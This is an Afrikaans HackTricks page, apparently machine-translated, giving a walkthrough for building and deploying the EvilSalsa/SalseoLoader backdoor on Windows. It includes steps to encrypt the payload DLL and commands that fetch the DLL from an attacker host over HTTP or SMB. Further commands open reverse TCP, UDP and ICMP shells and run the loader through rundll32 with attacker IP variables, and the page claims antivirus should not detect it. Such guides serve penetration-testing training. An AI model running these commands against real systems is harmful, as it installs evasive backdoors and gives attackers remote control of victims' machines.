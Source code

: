 # Salseo

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Samevoeging van die binêre

Laai die bronkode van die github af en saamvoeg **EvilSalsa** en **SalseoLoader**. Jy sal **Visual Studio** geïnstalleer moet hê om die kode saam te voeg.

Saamvoeg daardie projekte vir die argitektuur van die windows box waar jy dit gaan gebruik (As die Windows x64 ondersteun, saamvoeg dit vir daardie argitektuur).

Jy kan **die argitektuur kies** binne Visual Studio in die **linker "Build" Tab** in **"Platform Target".**

(\*\*As jy nie hierdie opsies kan vind nie, druk op **"Project Tab"** en dan op **"\<Project Name> Properties"**)

![](<../.gitbook/assets/image (839).png>)

Dan, bou albei projekte (Build -> Build Solution) (Binne die logs sal die pad van die uitvoerbare verskyn):

![](<../.gitbook/assets/image (381).png>)

## Berei die Backdoor voor

Eerstens, jy sal die **EvilSalsa.dll** moet kodeer. Om dit te doen, kan jy die python skrip **encrypterassembly.py** gebruik of jy kan die projek **EncrypterAssembly** saamvoeg:

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### Windows
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
Ok, nou het jy alles wat jy nodig het om al die Salseo goed te uitvoer: die **gecodeerde EvilDalsa.dll** en die **binarie van SalseoLoader.**

**Laai die SalseoLoader.exe binarie op die masjien. Hulle behoort nie deur enige AV opgespoor te word nie...**

## **Voer die backdoor uit**

### **Kry 'n TCP reverse shell (aflaai van die gecodeerde dll deur HTTP)**

Onthou om 'n nc as die reverse shell luisteraar en 'n HTTP bediener te begin om die gecodeerde evilsalsa te bedien.
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **Om 'n UDP omgekeerde skulp te kry (gedownloade kodering dll deur SMB)**

Onthou om 'n nc as die omgekeerde skulp luisteraar te begin, en 'n SMB-bediener om die gekodeerde evilsalsa (impacket-smbserver) te bedien.
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **Kry 'n ICMP omgekeerde skulp (gecodeerde dll reeds binne die slagoffer)**

**Hierdie keer het jy 'n spesiale hulpmiddel in die kliënt nodig om die omgekeerde skulp te ontvang. Laai af:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **Deaktiveer ICMP Antwoorde:**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### Voer die kliënt uit:
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### Binne die slagoffer, laat ons die salseo ding uitvoer:
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## Samevoeging van SalseoLoader as DLL wat hooffunksie uitvoer

Maak die SalseoLoader-projek oop met Visual Studio.

### Voeg voor die hooffunksie by: \[DllExport]

![](<../.gitbook/assets/image (409).png>)

### Installeer DllExport vir hierdie projek

#### **Gereedskap** --> **NuGet-pakketbestuurder** --> **Bestuur NuGet-pakkette vir Oplossing...**

![](<../.gitbook/assets/image (881).png>)

#### **Soek vir DllExport-pakket (met die Bladsy-blad), en druk Installeer (en aanvaar die pop-up)**

![](<../.gitbook/assets/image (100).png>)

In jou projekmap het die lêers verskyn: **DllExport.bat** en **DllExport\_Configure.bat**

### **U**ninstalleer DllExport

Druk **Uninstall** (ja, dit is vreemd maar glo my, dit is nodig)

![](<../.gitbook/assets/image (97).png>)

### **Verlaat Visual Studio en voer DllExport\_configure uit**

Net **verlaat** Visual Studio

Gaan dan na jou **SalseoLoader-gids** en **voer DllExport\_Configure.bat** uit

Kies **x64** (as jy dit binne 'n x64-boks gaan gebruik, dit was my geval), kies **System.Runtime.InteropServices** (binne **Namespace vir DllExport**) en druk **Toepas**

![](<../.gitbook/assets/image (882).png>)

### **Maak die projek weer oop met Visual Studio**

**\[DllExport]** moet nie langer as 'n fout gemerk wees nie

![](<../.gitbook/assets/image (670).png>)

### Bou die oplossing

Kies **Uitsettipe = Klasbiblioteek** (Projek --> SalseoLoader Eienskappe --> Aansoek --> Uitsettipe = Klasbiblioteek)

![](<../.gitbook/assets/image (847).png>)

Kies **x64** **platform** (Projek --> SalseoLoader Eienskappe --> Bou --> Platform-teiken = x64)

![](<../.gitbook/assets/image (285).png>)

Om die oplossing te **bou**: Bou --> Bou Oplossing (Binne die Uitset-konsol sal die pad van die nuwe DLL verskyn)

### Toets die gegenereerde Dll

Kopieer en plak die Dll waar jy dit wil toets.

Voer uit:
```
rundll32.exe SalseoLoader.dll,main
```
As daar geen fout verskyn nie, het jy waarskynlik 'n funksionele DLL!!

## Kry 'n shell met die DLL

Moet nie vergeet om 'n **HTTP** **bediener** te gebruik en 'n **nc** **luisteraar** in te stel nie

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
